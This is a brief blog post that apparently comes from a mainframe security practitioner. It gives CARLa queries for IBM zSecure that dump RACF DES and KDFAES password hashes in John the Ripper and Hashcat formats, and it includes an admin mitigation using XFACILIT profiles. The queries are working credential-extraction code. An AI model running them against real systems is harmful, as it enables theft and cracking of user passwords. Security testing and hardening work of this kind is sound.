 ```yaml
---
layout: post
title: Extracting passwords using zSecure
date: 2018-04-24 21:54 +0100
author: Jim
tags: RACF zSecure
---
```

zSecure is an excellent product that I [heartily endorse](https://www.youtube.com/watch?v=BfOmkqz06SY).  

Here is some CARLa to pull out password hashes from a RACF DB and write out the results in JohnTheRipper and/or Hashcat formats. Just delete the relevant lines to suit your needs.  

Note that this requires a RACF database to be allocated in SE.1 and will not work with a zSecure unload (since they don't contain passwords).   

**Note for RACF admins:** Define `XFACILIT` profiles of `CKG.CMD.FIELD.PASSWORD` and `CKG.CMD.FIELD.PWDX` with `UACC(NONE)` to prevent this from working.  

To extract DES hashes:  

```
newlist nopage
  select  segment=base has_password=yes
/* JtR format */
  sortlist KEY(0) | ":$racf$*" | key(0) | "*" | password(hex,0)
/* Hashcat format*/
  sortlist "$racf$*" | key(0) | "*" | password(hex,0)
```

And for KDFAES hashes:  

```
newlist nopage
  select  segment=base has_password=yes
/* JtR format */
  sortlist KEY(0) | ":$racf$*" | key(0) | "*" | pwdx(hex,0) | ,
   password(hex,0)
/* Hashcat format*/
  sortlist "$racf$*" | key(0) | "*" | pwdx(hex,0) | ,
   password(hex,0)
```
